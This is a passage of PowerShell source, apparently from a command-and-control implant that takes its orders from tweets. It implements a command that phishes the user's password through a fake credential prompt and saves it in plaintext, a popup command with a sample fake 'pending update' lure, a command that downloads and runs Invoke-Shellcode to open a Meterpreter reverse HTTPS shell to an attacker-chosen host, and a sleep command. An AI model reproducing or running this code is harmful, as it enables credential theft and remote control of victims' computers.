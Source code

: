         #Implements the !credential command to recover the users password
        #!credential|c:\temp\cred.txt
        Function CredentialCommand {
            [string] $OutPath = $LatestTweet.split('|')[1]
            
            if (Test-Path -Path (Split-Path -Parent $OutPath) -Pathtype container) {
                $UserCredential = Get-Credential  
                $UserCredential.Password | ConvertFrom-SecureString
                
                #Convert password to plaintext
                $Password = $UserCredential.GetNetworkCredential().Password
                $Username = $UserCredential.UserName
                
                #Create a custom object to store the results in
                $ObjectProperties = @{'Username' = $Username;
                                      'Password' = $Password}                             
                $ResultsObject = New-Object -TypeName PSObject -Property $ObjectProperties
                
                #Output results to file
                Out-File -FilePath $OutPath -Append -InputObject $ResultsObject
            }
        }
    
        #Implements the !popup command to send a message to the user
        #!popup|Administrative credentials are needed to install a pending update. You will be prompted shortly.|UPDATE PENDING
        Function PopupCommand {
            [string] $PopupMessage = $LatestTweet.split('|')[1]
            [string] $PopupTitle = $LatestTweet.split('|')[2]
            Add-Type -AssemblyName "System.Drawing","System.Windows.Forms"
            [Windows.Forms.MessageBox]::Show($PopupMessage, $PopupTitle, [Windows.Forms.MessageBoxButtons]::OK, [Windows.Forms.MessageBoxIcon]::Information)
        }
 
        #Implements the !shell command to invoke-shellcode with meterpreter https payload 
        #Ex: !shell|10.0.0.23|443"
        Function ShellCommand {
            [string] $Lhost = $LatestTweet.split('|')[1]
            [string] $Lport = $LatestTweet.split('|')[2]
            [string] $downloadURL = 'https://github.com/mattifestation/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1'
            Write-Verbose "I am downloading from $ActualdownloadURL"
            $downloadedScript = $WebClientObject.downloadString($downloadURL)
            #append Function call with parameters
            [string] $AppendString = "Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost $Lhost -Lport $Lport -force"
            $downloadedScript += $AppendString
            Invoke-Expression $downloadedScript
        }
        
        #Implements the !sleep command to sleep for specified number of seconds              
        #Ex: !sleep|9999
        Function SleepCommand {
            #Parse instructions for the amount of time to sleep
            [string] $SecondsToWait = $LatestTweet.split('|')[1]
            #Start sleeping
            Write-Verbose "Sleeping for $SecondsToWait seconds"
            Start-Sleep -Seconds $SecondsToWait       
        }
